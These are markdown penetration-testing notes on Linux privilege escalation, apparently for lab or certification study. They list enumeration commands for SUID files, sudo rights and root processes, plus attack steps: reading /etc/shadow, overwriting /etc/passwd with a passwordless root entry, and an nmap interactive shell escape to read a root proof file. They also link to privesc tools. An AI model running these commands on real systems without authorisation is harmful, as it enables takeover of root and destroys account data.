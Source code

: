 
# Linux Privilage Escalation Notes

* **Guide**

https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

* **General Command**

Kernel version detection & Priv Check:
```
cat /etc/issue
uname -a
cat /proc/version
cat /etc/shadow @Normal kullanıcı göremez
```

Services are Running as Root

```
ps aux | grep root
```


Find Suit & Guid Bit & Writeable Files
```
find / -perm -u=s -type f 2>/dev/null
find / -perm -g=s -type f 2>/dev/null
find / -perm -2 ! -type l -ls 2>/dev/null @Yazma yetkisi olan dosyalar
```

Try :)
```
sudo su
sudo -l
```

Edit passwd file 
```
echo root::0:0:root:/root:/bin/bash > /etc/passwd
su
```

Nmap permissions

```
sudo nmap --interactive
!id
!cat /root/proof.txt
```

Network connections

```
netstat -ano
```

Metasploit Exploit Suggester

```
run post/multi/recon/local_exploit_suggester
```

Find something

```
cat config.php | grep db
```

## Automated Scripts:

* Linux Priv Checker:

https://www.securitysift.com/download/linuxprivchecker.py

* LinEnum:

https://github.com/rebootuser/LinEnum

* Linux Exploit Suggester:

https://github.com/mzet-/linux-exploit-suggester

* Old Linux Exploit SuggersteR:

https://github.com/PenturaLabs/Linux_Exploit_Suggester

* Linux Post Exploatation:

https://github.com/reider-roque/linpostexp








